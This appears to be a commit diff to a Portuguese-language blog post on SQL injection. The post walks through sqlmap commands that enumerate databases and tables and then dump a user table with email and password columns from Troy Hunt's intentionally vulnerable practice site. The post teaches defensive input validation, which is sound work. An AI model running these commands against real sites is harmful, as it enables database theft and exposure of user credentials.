

Before and after one commit to bvanelli/bvanelli.github.io, a Jekyll site: the page built from _posts/2017-12-13-sqli.markdown, in a window 1280 px wide and 1400 px high, scrolled down 7016 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Changed date on SQLI article

````diff
--- a/_posts/2017-04-24-sqli.markdown
+++ b/_posts/2017-12-13-sqli.markdown
@@ -88,6 +88,8 @@ Nessa ocasião, mesmo que o input tivesse caracteres estranhos como o `'`, a bus
 
 Essa técnica basicamente visa eliminar os vetores de ataque recusando queries com caracteres suspeitos. Exemplos desse tipo de queries são strings de entrada contendo `1=1`, `<script>` ou mesmo `'`, salvo nos casos onde esses caracteres são legítimos, como apóstrofos em nomes. **Validar a entrada é um método recomendado mesmo quando outros métodos de proteção são utilizados**.
 
+Outra forma de validar dados de entrada de forma automatizada é utilizar **Web Application Firewalls**, ou **WAFs**. O problema com eles, embora sirvam para bloquear grande parte das query maliciosas, é que eles também podem ser enganados, levando a falsos positivos ou, pior, à falsos negativos. Além disso, eles impactam a performance da aplicação pois precisam processar todos os pacotes recebidos.
+
 ### Escapar dados de entrada
 
 Consiste em converter dados de entrada em caracteres que não causam problemas. O MySQL, por exemplo, suporta as seguintes conversões:
@@ -116,7 +118,7 @@ Uma análise inicial mostra que a página utiliza requisições do tip GET, que
 https://hackyourselffirst.troyhunt.com/Make/1?orderby=1
 ```
 
-Vamos tentar passar um caractere proibido e ver como site responde.
+Vamos tentar passar um caractere proibido como o `'` e ver como site responde.
 
 ```
 https://hackyourselffirst.troyhunt.com/Make/1?orderby='
@@ -124,4 +126,114 @@ https://hackyourselffirst.troyhunt.com/Make/1?orderby='
 
 <img src="https://cloud.githubusercontent.com/assets/8211602/26791649/20b548ca-49ee-11e7-8642-8a3d16e50f91.png" style="width: 100%;"/>
 
-Um bom sinal! Os erros não são tratados, o que significa que a aplicação pode ser vulnerável. Vamos rodar o **sqlmap** e tentar explorar essa variável.
+Um bom sinal! Os erros não são tratados e pior, são mostrados imediatamente ao usuário, o que significa que a aplicação pode ser vulnerável. Vamos rodar o [**sqlmap**](https://github.com/sqlmapproject/sqlmap) e tentar explorar essa variável. Primeiro, vamos enumerar os bancos da vítima:
+
+```bash
+./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" --dbs
+```
+
+E então ele começa a trabalhar, rodando um teste automatizado que enumera os bancos.
+
+<img src="https://user-images.githubusercontent.com/8211602/33934197-47c0c688-dfdf-11e7-809d-8c1f2d5b7164.png" style="width: 100%;"/>
+
+E, como em um passe de mágica, ele nos retorna a estrutura do bancos de dados!
+
+```
+[08:17:00] [INFO] retrieved: hackyourselffirst_db
+[08:17:01] [INFO] retrieved: master
+[08:17:01] [INFO] retrieved: tempdb
+[08:17:02] [INFO] retrieved:
+available databases [3]:
+[*] hackyourselffirst_db
+[*] master
+[*] tempdb
+```
+
+Agora que já sabemos qual o banco que vamos atacar, precisamos enumerar as tabelas:
+
+```bash
+./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" -D hackyourselffirst_db --tables
+```
+
+E voalá:
+
+```
+[08:30:19] [INFO] fetching tables for database: hackyourselffirst_db
+[08:30:19] [INFO] the SQL query used returns 11 entries
+[08:30:20] [INFO] retrieved: dbo.Make
+[08:30:20] [INFO] retrieved: dbo.Supercar
+[08:30:21] [INFO] retrieved: dbo.UserProfile
+[08:30:21] [INFO] retrieved: dbo.Vote
+[08:30:22] [INFO] retrieved: dbo.webpages_Membership
+[08:30:22] [INFO] retrieved: dbo.webpages_OAuthMembership
+[08:30:23] [INFO] retrieved: dbo.webpages_Roles
+[08:30:23] [INFO] retrieved: dbo.webpages_UsersInRoles
+[08:30:24] [INFO] retrieved: sys.database_firewall_rules
+[08:30:24] [INFO] retrieved: sys.script_deployment_status
+[08:30:25] [INFO] retrieved: sys.script_deployments
+Database: hackyourselffirst_db
+[11 tables]
++------------------------------+
+| Make                         |
+| Supercar                     |
+| UserProfile                  |
+| Vote                         |
+| webpages_Membership          |
+| webpages_OAuthMembership     |
+| webpages_Roles               |
+| webpages_UsersInRoles        |
+| sys.database_firewall_rules  |
+| sys.script_deployment_status |
+| sys.script_deployments       |
++------------------------------+
+```
+
+Vamos selecionar uma tabela com informações sensitivas, que costumam ser as mais vulneráveis para as empresas porque contém informações de clientes. A tabela `UserProfile` parece ser promissora!
+
+```bash
+./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" -D hackyourselffirst_db -T UserProfile --columns
+```
+
+E, como esperado, essa tabela contém informações relevantes dos usuários:
+
+```
+[08:33:21] [INFO] retrieved: Email
+[08:33:21] [INFO] retrieved: nvarchar
+[08:33:22] [INFO] retrieved: FirstName
+[08:33:23] [INFO] retrieved: nvarchar
+[08:33:23] [INFO] retrieved: IsAdmin
+[08:33:24] [INFO] retrieved: bit
+[08:33:24] [INFO] retrieved: LastName
+[08:33:25] [INFO] retrieved: nvarchar
+[08:33:26] [INFO] retrieved: Password
+[08:33:26] [INFO] retrieved: nvarchar
+[08:33:27] [INFO] retrieved: UserId
+[08:33:27] [INFO] retrieved: int
+Database: hackyourselffirst_db
+Table: UserProfile
+[6 columns]
++-----------+----------+
+| Column    | Type     |
++-----------+----------+
+| Email     | nvarchar |
+| FirstName | nvarchar |
+| IsAdmin   | bit      |
+| LastName  | nvarchar |
+| Password  | nvarchar |
+| UserId    | int      |
++-----------+----------+
+```
+
+Por fim, vamos fazer um dump de toda a tabela de usuários (porque não?):
+
+```bash
+./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" -D hackyourselffirst_db -T UserProfile --dump
+```
+
+E todo o banco agora é nosso:
+
+<img src="https://user-images.githubusercontent.com/8211602/33935028-ae631146-dfe1-11e7-80d6-ccb9f235e84e.png" style="width: 100%;"/>
+
+Agora imagine o que isso implicaria para um site que lida com informações como números de cartões. **Em cinco minutos, todos os dados de todos os usuários poderiam ser obtidos por alguém copiando e colando comandos na tela do computador.** Por isso é tão importante que as empresas tenham o cuidado de manter seus websites sempre seguros. O principal problema aqui é que, caso o administrados não mantivesse ou não prestasse atenção nos logs do seu serviço, ele provavelmente nem saberia que todos os seus dados foram roubados.
+
+Então lembrem-se. **Sempre validem os dados dos usuários!**
````
Also changed, not shown: other parts of _posts/2017-12-13-sqli.markdown (+1 -1 lines).
